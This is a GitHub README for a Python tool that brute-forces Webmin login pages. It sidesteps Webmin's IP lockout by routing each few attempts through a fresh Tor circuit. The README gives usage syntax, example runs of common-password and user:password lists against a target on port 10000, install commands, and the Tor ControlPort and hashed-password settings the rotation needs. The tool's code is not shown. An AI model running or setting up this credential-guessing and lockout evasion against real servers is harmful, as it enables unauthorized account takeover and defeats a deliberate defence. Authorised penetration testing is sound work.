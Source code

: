 # Bruteforce Webmin websites

This script allows to bruteforce Webmin, which by default blocks the IP address after some attempts, by rotating the IP address using Tor.

## Usage

```
python3 webmin_bruteforce.py -t TARGET [-u USER] [-U USER_LIST] [-p PWD] [-P PWD_LIST] 
[-UP USERPWD_LIST] [-tp TOR_PASSWORD] [-r RETRIES_PER_IP]
```

To use Tor you must set the *-tp* parameter, or it will not rotate the IP address. By default it tests 3 passwords per IP, but you can change the number with the option *-r*.

You can test a single user (*-u*) or user list (*-U*), single password (*-p*) or password list (*-P*) or a user:password list (*-UP*)

## Examples

- **python3 webmin_bruteforce.py -t ht<span>tps://</span>website.com:10000 -u admin -P 500-most-common.txt -tp test123** - Test the 500 most common passwords against user "admin" rotating the IP address every 3 attempts (default value)
- **python3 webmin_bruteforce.py -t ht<span>tps://</span>website.com:10000 -U users.txt -P passwords.txt** - Test a list of users and a list of passwords without rotating the IP with Tor
- **python3 webmin_bruteforce.py -t ht<span>tps://</span>website.com:10000 -UP user_pass.txt -tp test123 -r 2** - Test a user:password list rotating the IP address every 2 attempts


## Installation

```
git clone https://github.com/ricardojoserf/webmin-tor-bruteforce
cd webmin-tor-bruteforce/
pip3 install stem pysocks
apt install tor
```

To use Tor to change the IP for every request, you must hash a password:

```
tor --hash-password test123
```

In the file /etc/tor/torrc, uncomment the variable *ControlPort* and the variable *HashedControlPassword*, and in this last one add the hash:

```
ControlPort 9051
HashedControlPassword 16:7F314CAB402A81F860B3EE449B743AEC0DED9F27FA41831737E2F08F87
```

Restart the tor service and use this password as argument for the script ("-tp test123" or "--tor_password 123")

```
service tor restart
```
